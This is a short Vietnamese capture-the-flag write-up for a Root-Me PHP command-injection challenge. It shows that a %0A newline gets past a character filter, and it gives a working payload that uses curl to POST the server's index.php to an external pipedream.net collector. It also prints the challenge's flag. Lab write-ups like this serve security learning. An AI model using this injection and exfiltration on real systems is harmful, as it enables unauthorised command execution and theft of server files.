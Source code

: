 # PHP- Command injection

\*\*\*Link: http://challenge01.root-me.org/web-serveur/ch53/index.php

## Request

![](sc.png)

## Solution

```js
 *** Với bài này , một số filter đã được thêm vào nên không thể sử dụng những kí tự $,$$ ,|, ||,.. hay các
từ cat, ls,...

Nhưng khi sử dụng %0A vừa có thể bypass qua filter, vừa thực thi được command (we can break this command and excute new command via %0a)


```

#### Step1: Thử xem có thể bypass bằng %0a không, thêm một đoạn url được tạo ra để bắt request, bước sau sẽ dùng ( dùng trang https://pipedream.com/ để tạo url)

![](step1.png)

Ta thấy trả về "Ping ok" vậy là có thể bypass.

![](result1.png)

#### Step2: Thực thi lệnh wget để gửi file index.php ( vì trong file sẽ chứa flag) bằng request trên.

```js
=> ip=localhost%0Acurl -X POST -F file=@index.php https://enb393uk8n8ckk.m.pipedream.net?id=abc
```

![](step2.png)

Nhận được request trong trang web, trong body sẽ có url , đây là nơi lưu file index.php mà chúng ta đã gửi.

![](url.png)

![](file.png)

```HTML
***Vậy pass là: Comma@nd_1nJec7ion_Fl@9_1337_Th3_G@m3!!!

```
